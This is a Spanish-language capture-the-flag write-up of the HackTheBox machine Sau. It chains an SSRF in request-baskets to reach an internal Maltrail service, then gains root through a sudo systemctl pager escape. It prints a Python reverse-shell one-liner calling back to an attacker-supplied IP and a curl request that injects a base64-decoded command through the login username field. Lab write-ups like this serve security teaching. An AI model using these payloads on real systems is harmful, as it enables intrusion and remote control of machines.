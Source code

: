 ```yaml
---
layout: post
title: HackTheBox Sau - SSRF y less abuse (GTFOBins)
author: c4rta
date: 2023-08-29
tags: [HTB, SSRF]
image: /assets/img/sau/waifu.jpg
---
```


{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con:

```ruby
nmap -sS -n -Pn -T4 --open -p- 10.10.11.224
```

- sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Y nos reporto el puerto 22 (SSH) y 55555:

```ruby
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

Adicionalmente, si mostramos los puertos filtrados, nos saldra el puerto **80**

```ruby
80/tcp    filtered http
```

Ahora escanearemos para obtener mas informacion sobre la version y el servicio que estan corriendo bajo esos puertos. En el puerto 55555 nos mostrara que encontro informacion de un sitio web y el recurso **web**:

```ruby
nmap -sCV -p22,22,55555 10.10.11.224
```

```ruby
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 02 Jan 2024 22:20:01 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 02 Jan 2024 22:19:33 GMT
|     Content-Length: 27
|     href="/web">Found</a>. <-- recurso de un sitio web
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 02 Jan 2024 22:19:34 GMT
|_    Content-Length: 0
```

### Analisis del puerto 55555

El puerto **55555** corresponde a un servidor web, por defecto nos manda al recurso **web** como se puede ver: 

![](/assets/img/sau/1.png)

Si vemos en el footer del sitio, aparecera que esta usando **request-baskets** es una version

```
Powered by request-baskets | Version: 1.2.1 
```

Al realizar una busqueda en google, podemos notar que es vulnerable a **SSRF**

[https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside](https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside)

Nos menciona que esta vulnerabilidad nos permite acceder a recursos internos a travez de una peticion a la API que ejecuta por detras **request-baskets**

Analizando un poco mas las opciones del sitio, nos encontramos que podemos crear **baskets** y luego acceder a ellas mediante una URL. Al explorar una basket creada, podemos ver las solicitudes que se han echo asi como mas informacion, tambieb modificar algunas cosas de configuracion: 

![](/assets/img/sau/2.png)

Tenemos la capacidad de hacer **URL forwarding**, es decir, hacer una redireccion a una URL.

## SSRF - access port 80

**SSRF:** Server-side request forgery es una vulnerabilidad que permite a los atancantes realizar peticiones arbitrarias con el fin de acceder a servicios internos de la maquina, o hacer peticiones a servidores externos de la maquina.

Recapitulando, debido a que tenemos un **SSRF**, una redireccion URL, y el puerto 80 filtrado, podemos intentar modificar la configuracion de una **basket** de esta forma:

![](/assets/img/sau/3.png)

Lo que estaria pasando, es que cuando nosotros ingresemos a la URL que se genero cuando se crea un **basket**, esa peticion se estaria redireccionado a **127.0.0.1:80**, y como existe un SSRF, estariamos accediendo al servicio interno de la maquina que corre en **127.0.0.1:80**, lo cual indica que el SSRF se exploto correctamente como se puede ver

![](/assets/img/sau/4.png)

## RCE - Maltrail (v0.53)

Como se observa al final, se esta usando la version 0.53 de Maltrail, al realizar una busqueda rapida en google, nos daremos cuenta que que podemos explotar una vulnerabilidad para conseguir RCE, leyendo un poco de la vulnerabilidad, el parametro **username** del recurso **login** no se sanitiza correctamente, lo cual permie que podamos inyectar comandos, por lo cual podemos explotarla directamente usando curl:

Usaremos python para crear una revese shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>", <puerto>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
    Recuerda cambiar la IP y el puerto

Luego lo codificaremos en b64 y usaremos este comando para enviar una peticion por POST y en el parametro **username** le encadenamos el comando

```ruby
curl -X POST "http://10.10.11.224:55555/dihpeef/login" -d "username=;$(echo "<base 64>" | base64 -d | bash)"
```

La URL debe ser por una basket que hayas creado y obtendremos una conexion

![](/assets/img/sau/5.png)

(A este punto tenemos la flag de user)

## Escalada de privilegios

Si vemos los permisos de nivel de sudoers, podremos ver que el usuario puma puede ejecutar **systemctl** sin contraseña:

    Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Debido a que cuando ejecutamos comando con systemctl usa una interfaz o vista similar a la del comando **less**, podemos inyectar comando al final de la vista de systemctl de la siguiente manera

![](/assets/img/sau/6.png)

Observa como al final de la vista o cuando termina la informacion mostrada, se le ingresa el comando que queremos ejecutar, en este caso fue **!bash** (ignorar el WARNING: terminal is not fully functional, no la hice fully interactive TTY)

Con eso hemos conseguido root

Eso ha sido todo, gracias por leer ❤
